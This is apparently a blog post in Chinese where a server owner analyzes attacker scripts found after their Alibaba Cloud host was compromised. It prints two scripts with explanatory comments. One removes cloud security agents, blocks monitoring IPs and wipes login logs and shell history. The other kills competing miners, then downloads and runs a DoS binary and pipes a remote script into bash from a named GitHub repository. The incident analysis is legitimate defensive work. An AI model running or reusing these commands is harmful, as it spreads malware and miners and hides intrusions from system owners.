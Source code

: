 # 记上次黑客入侵阿里云主机 —— 代码分析（上）

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(前面两部分)

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)


黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```



